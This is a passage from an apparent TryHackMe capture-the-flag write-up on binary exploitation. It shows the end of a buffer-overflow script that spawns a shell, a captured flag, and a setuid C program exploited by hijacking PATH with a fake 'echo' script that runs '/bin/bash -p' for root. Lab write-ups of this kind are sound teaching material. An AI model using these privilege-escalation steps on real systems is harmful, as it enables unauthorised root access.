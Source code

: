 ```python
buff += bin_sh_a

proc.sendline(buff)

proc.interact()
```

Running this drop a shell for the user `binexgod`



We can now retrieve the flag in `/home/binexgod/binhexgod_flag.txt` :

```
THM{b1n3xg0d_pwn3d}
```



## Fourth binary, getting root !

For this binary, we got the code. `vuln.c` : 

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo Get out of heaven lol");
}
```

Hmmm can we exploit `/usr/bin/env` somehow ?

Or maybe again a bugger overflow with the arguments ? Maybe we can somehow override the `system` call ?



The `char **envp` list all the environment variables.



Turns out this one was pretty simple. We can create an `echo` script in `/tmp/bin/echo` with this

```
#!/bin/bash
/bin/bash -p
```
